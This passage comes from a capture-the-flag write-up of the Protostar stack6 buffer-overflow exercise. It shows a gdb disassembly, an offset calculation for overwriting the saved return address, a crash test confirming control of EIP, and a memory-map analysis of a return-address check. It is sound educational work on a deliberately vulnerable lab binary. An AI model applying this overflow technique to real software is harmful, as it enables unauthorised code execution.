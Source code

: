 ```shell
0x080484d3 <getpath+79>:        call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:        movl   $0x1,(%esp)
0x080484df <getpath+91>:        call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:        mov    $0x80485f0,%eax
0x080484e9 <getpath+101>:       lea    -0x4c(%ebp),%edx
0x080484ec <getpath+104>:       mov    %edx,0x4(%esp)
0x080484f0 <getpath+108>:       mov    %eax,(%esp)
0x080484f3 <getpath+111>:       call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:       leave
0x080484f9 <getpath+117>:       ret
End of assembler dump.
```

We immediately see that `buffer` starts at `-0x4c(%ebp)`, which means that we
need to write 80 bytes (`0x4c` + 4 bytes for the old `$ebp`) plus the 4 bytes
we want `$eip` to be at after the `ret` instruction. This makes sense because
4 more bytes is allocated on the stack (compared to the previous level) to
store the `unsigned int ret` variable.

```shell
(gdb) run
Starting program: /opt/protostar/bin/stack6
input path please: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Now, let's take a look at what the `ret & 0xbf000000` does exactly. We can see
from GDB that the stack is mapped to the memory between `0xbffeb000` and
`0xc0000000`. The check essentially prevents us from returning directly to a
memory address on the stack. You can think of this as a crude implementation of
a non-executable stack.

```shell
(gdb) info proc map
process 2715
cmdline = '/opt/protostar/bin/stack6'
cwd = '/tmp'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fde000 0xb7fe2000     0x4000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: 2018-01-01-nebula-walkthrough
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/